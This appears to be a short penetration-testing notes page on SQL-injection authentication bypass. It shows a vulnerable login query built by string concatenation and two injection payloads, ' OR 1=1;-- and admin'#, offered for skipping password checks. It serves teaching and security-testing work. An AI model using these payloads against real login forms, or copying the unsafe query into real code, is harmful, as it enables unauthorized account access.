 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Authentication Bypass

This method consists of considering that the web application isn't interested in the content of the username and password, but in making a matching pair in the users' table.

* We assume the database uses a basic query for authentication

{% code overflow="wrap" lineNumbers="true" %}
```sql
SELECT * from users WHERE username='%user%' and password='%password%' LIMIT 1;
```
{% endcode %}

{% hint style="info" %}
_%user%_ and _%password%_ are the values received on a login form
{% endhint %}

***

* We can do a malicious insertion on the password field

{% code overflow="wrap" lineNumbers="true" %}
```sql
' OR 1=1;--   #Use this comparison to cheat on verification
#This will skip the password verification and enumerate all the users
```
{% endcode %}

{% hint style="warning" %}
After the `;--` is mandatory to put a space
{% endhint %}

***

* On PHP-based pages, we can replicate the same with a different payload

{% code overflow="wrap" lineNumbers="true" %}
```java
admin'#      //Insert this to skip the password verification
```
{% endcode %}
